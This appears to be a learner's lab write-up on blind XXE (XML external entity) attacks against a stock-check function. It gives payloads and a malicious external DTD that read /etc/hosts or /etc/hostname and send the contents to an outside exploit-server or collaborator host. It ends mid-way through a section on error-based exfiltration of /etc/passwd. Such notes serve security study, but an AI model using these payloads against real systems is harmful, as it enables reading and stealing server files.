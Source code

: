 ```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE stockCheck [<!ENTITY % xxe SYSTEM "http://v2ywufdo4vkc5oqsjujksv61csij6nuc.oastify.com"> %xxe; ]>
<stockCheck><productId>2</productId><storeId>1</storeId></stockCheck>
```

# Blind XXE to exfiltrate data using a malicious external DTD
Get /etc/hosts
DTDs will allow us to stack entities when we need to do multiple commands/functions.
## Observations
- Similar stock check function but we can't retrieve files directly and OOB works. So we'll need to host a DTD to see if external DTD are allowed. 
- DTD to retrieve /etc/hosts:
```
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'https://exploit-0a2300d703f5a1ed82b0737001c500d9.exploit-server.net//?x=%file;'>">
%eval;
%exfil;
```
Payload:
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE stockCheck [
  <!ENTITY % file SYSTEM "file:///etc/hosts">
  <!ENTITY % dtd SYSTEM "http://v2ywufdo4vkc5oqsjujksv61csij6nuc.oastify.com/evil.dtd">
  %dtd;
]>
<stockCheck>
  <productId>&exfil;</productId>
  <storeId>1</storeId>
</stockCheck>
```
- It also doesn't allow entities so we'll need to parameterize the payload sent to the server:
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://exploit-0a2300d703f5a1ed82b0737001c500d9.exploit-server.net/evil.dtd"> %xxe;%eval;
%exfil;]>
<stockCheck>
  <productId>2</productId>
  <storeId>1</storeId>
</stockCheck>
```
Note that the entities in the DTD are now parameters in the above payload. 

# Exploiting blind XXE to retrieve data via error messages
Get /etc/password via OOB with DTD
## Observations
- There is a submit feedback form with file upload. 
-- http://localhost:46261/feedback/screenshots/1.php is where the one I uploaded landed. Maybe a way to host DTDs that are trusted. 
- Reading multi-line data:
-- Use FTP server or if the error returns multiple lines, append the file we're looking for to an intention error. 
Example: Where this DTD would return multiple lines and cause an error, we can instead modify it to append the data to the error. Actually an in-band issue but with an external OOB DTD. 
```
<?xml version="1.0" encoding="UTF-8"?>
```